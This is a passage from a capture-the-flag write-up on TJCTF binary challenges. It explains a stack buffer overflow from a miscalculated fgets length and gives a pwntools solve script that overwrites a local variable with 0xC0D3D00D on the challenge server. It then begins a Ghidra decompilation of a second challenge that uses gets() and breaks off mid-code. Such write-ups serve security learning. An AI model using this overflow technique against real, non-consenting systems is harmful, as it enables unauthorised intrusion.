 ```c
```
The goal is pretty obvious, set the local_14 variable to a certain value. What got me stuck for a really long time and should have been really obvious was the fact that input was not a standard c function. I was confused for a while and kept looking online for the manpage but couldn't find anything. This was a n impotant lesson to first look at all user defined functions before trying to exploit a binary. Now, if we look at what the input function does the vulnerability is obvious.
```c
fgets(str,(int)ROUND(f * 16.00000000),stdin);
```
Essentially this gets will take in `f * 16` amount of bytes. For all the buffers besides bio this is a correct calculation. However, the program will take in `8 * 16 = 128` bytes for the bio buffer which is only 64 bytes. Now with this buffer overflow all we have to do is set a variable on the stack to a certain value. The concept which needs to be understood for this problem is that the buffers and variables are all stored on the stack. This means by overflowing the buffer, we are able to change the value of other variables as well. How I found the offset to the local_14 variable was by brute forcing the offset using a for loop and seeing when the flag would be printed out. I'm sure there are smarter ways but this worked for me. My final solve script is the following:
```python
from pwn import *  
  
context.terminal = ['tmux', 'split', '-h']  
context.log_level = 'debug'  
  
r =remote('p1.tjctf.org', 8002)  
#r = process('./tinder')  
#gdb.attach(r)  
  
r.recv()  
r.sendline('A')  
r.recv()  
r.sendline('A')  
r.recv()  
r.sendline('A')  
r.recv()  
r.sendline('A'*116 + p32(0xC0D3D00D))  
r.recv()  
r.recv()  
  
r.interactive()
``` 

#### Seashells
```
Written by KyleForkBomb

I heard there's someone selling shells? They seem to be out of stock though...

nc p1.tjctf.org 8009
```

The following is the decompilation of seahsells from ghidra.
```c
{
  int iVar1;
  char local_12 [10];
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to Sally\'s Seashore Shell Shop");
  puts("Would you like a shell?");
  gets(local_12);
  iVar1 = strcasecmp(local_12,"yes");
  if (iVar1 == 0) {
    puts("sorry, we are out of stock");
```